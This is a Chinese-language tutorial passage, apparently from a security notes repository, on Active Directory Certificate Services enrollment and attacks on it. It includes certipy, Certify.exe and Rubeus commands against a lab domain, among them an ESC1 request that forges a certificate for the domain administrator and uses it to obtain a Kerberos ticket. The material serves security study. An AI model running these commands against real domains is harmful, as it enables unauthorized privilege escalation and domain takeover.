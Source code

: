 # 申请证书和证书攻击

使用模板申请证书流程图如下：

![image-20241125194705942](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E5%86%85%E8%AF%81%E4%B9%A6%E7%9B%B8%E5%85%B3%E6%BC%8F%E6%B4%9E/images/image-20241125194705942.png)

1. 客户端生成密钥对。
2. 客户端生成证书签名请求（CSR，Certificate Signing Request），CSR 有密钥对的私钥签名，主要包含证书模板和密钥对的公钥。
3. 服务端检查模板是否允许，用户是否具有申请证书的权限。
4. 服务端生成证书，并用 CA 私钥进行数字签名。
5. 生成后，服务端发放证书给客户端。

- 第 4 步中的 CA 私钥是颁发者信任证书的密钥对中的私钥。
- 颁发者信任证书会成为所申请证书的证书链中的上一级证书。

**注册证书方式**

客户端可以根据 ADCS 环境的配置选择不同⽅式注册证书：

- Windows 客户端证书注册协议（MS-WCCE），这是一组分布式组件对象模型（DCOM）接口，可与 ADCS 进行交互。DCOM 服务默认在所有 ADCS 服务器上启用。
- ICertPassage 远程协议（MS-ICPR）：在命名管道或 TCP/IP 上运行的 RPC 协议。
- 证书注册 Web 界面，ADCS 服务器需要安装并配置 “**证书颁发机构 Web 注册**” 角色。访问http:///certsrv/。

用户模板：所有域用户都有利用此模板申请证书权限。

机器模板：Domain Computers 组中的机器用户都有利用此模板申请证书权限。

```
#用户请求证书
certipy req -u administrator@HACK.com -p p-0p-0p-0 -dc-ip 192.168.72.21 -target 192.168.72.21 -ca HACK-DC01-CA -template User -debug

#机器请求证书
certipy req -u WIN10-02\$ -p p-0p-0p-0 -dc-ip 192.168.72.21 -target 192.168.72.21 -ca HACK-DC01-CA -template Machine -debug

#在域内机器执行，以当前登录的用户权限申请证书
Certify.exe request /ca:DC01.HACK.com\HACK-DC01-CA /template:User
#在域内机器执行，以当前登录的用户权限伪造 administrator 用户申请证书
Certify.exe request /ca:DC01.HACK.com\HACK-DC01-CA /template:ESC1 /altname:HACK\administrator

certipy auth -pfx administrator.pfx -dc-ip 192.168.72.21 -debug
```

![image-20250213132252712](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E5%86%85%E8%AF%81%E4%B9%A6%E7%9B%B8%E5%85%B3%E6%BC%8F%E6%B4%9E/images/image-20250213132252712.png)

![image-20250213152109504](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E5%86%85%E8%AF%81%E4%B9%A6%E7%9B%B8%E5%85%B3%E6%BC%8F%E6%B4%9E/images/image-20250213152109504.png)

##### Rubeus

```
使用 Rubeus 执行如下命令用证书 administrator.pfx 进行 Kerberos 认证。
Rubeus.exe asktgt /user:administrator /password:p-0p-0p-0 /certificate:administrator.pfx /domain:HACK.com /dc:DC01.HACK.com
```
